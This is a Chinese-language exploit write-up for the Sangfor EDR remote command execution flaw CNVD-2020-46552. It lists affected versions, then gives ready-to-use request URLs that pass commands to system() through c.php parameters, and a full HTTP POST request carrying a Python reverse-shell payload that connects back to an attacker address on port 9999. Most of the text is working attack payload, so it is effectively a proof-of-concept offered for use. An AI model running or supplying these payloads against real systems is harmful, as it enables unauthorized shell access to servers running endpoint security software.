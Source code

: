 # 深信服EDR远程命令执行 CNVD-2020-46552

## 漏洞描述

深信服终端检测响应平台是深信服公司开发的一套EDR系统。攻击者利用该漏洞，可向目标服务器发送恶意构造的HTTP请求，从而获得目标服务器的权限，实现远程代码控制执行。

## 影响版本

> [!NOTE]
>
> EDR v3.2.16
>
> EDR v3.2.17
>
> EDR v3.2.19

## 漏洞复现

```
https://xxx.xxx.xxx.xxx/tool/log/c.php?strip_slashes=system&limit=whoami
https://xxx.xxx.xxx.xxx/tool/log/c.php?strip_slashes=system&host=whoami
https://xxx.xxx.xxx.xxx/tool/log/c.php?strip_slashes=system&path=whoami
https://xxx.xxx.xxx.xxx/tool/log/c.php?strip_slashes=system&row=whoami
```

x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

#### 反弹shell

```
POST /tool/log/c.php HTTP/1.1
Host: x.x.x.x
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded;charset=utf-8
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 256

strip_slashes=system&host=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xxx.xxx.xxx.xxx",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

向 **/tool/log/c.php**  POST以下数据即可

```
strip_slashes=system&host=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("xxx.xxx.xxx.xxx",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

